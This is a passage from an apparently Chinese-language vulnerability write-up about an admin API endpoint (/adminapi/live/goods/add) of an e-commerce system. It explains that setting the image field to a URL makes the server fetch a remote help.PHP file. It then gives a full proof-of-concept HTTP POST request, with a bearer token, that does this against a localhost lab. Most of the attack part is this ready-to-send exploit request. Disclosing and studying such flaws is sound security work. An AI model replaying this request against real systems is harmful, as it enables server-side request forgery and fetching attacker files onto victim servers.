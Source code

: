 替换其中`image`参数为`http://localhost:19000/help.PHP`并进行发包。可以看到数据包发送后，虽然返回400，实际上已经请求并拉取了`help.PHP`文件。

![document_image_rId10.png](assets/1703831601-c045bae442be7bfdce73506037ed7ddc.png)

POC数据包：

```php
POST /adminapi/live/goods/add HTTP/1.1
Host: localhost:45600
Content-Length: 206
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: application/json, text/plain, */*
Content-Type: application/json;charset=UTF-8
Authori-zation: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwd2QiOiIxZDlmMjExMGZlOTgzM2U1MTQ4MmQyZjdkMTFmZjFlNiIsImlzcyI6ImxvY2FsaG9zdDo0NTYwMCIsImF1ZCI6ImxvY2FsaG9zdDo0NTYwMCIsImlhdCI6MTY5NDA1NjkyMCwibmJmIjoxNjk0MDU2OTIwLCJleHAiOjE2OTY2NDg5MjAsImp0aSI6eyJpZCI6MSwidHlwZSI6ImFkbWluIn19.6gzs6MXyxnHOEckxP4ejuoNJxLpMcT3MdyLRPBAkJ8k
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:45600
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:45600/admin/marketing/live/add_live_goods
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"goods_info":[{"id":4,"image":"http://localhost:19000/help.PHP","store_name":"Apple/苹果iPad mini6 8.3英寸平板电脑 64G-WLAN版 深空灰色","price":"3999.00","cost_price":"3999.00","stock":1600}]}
```
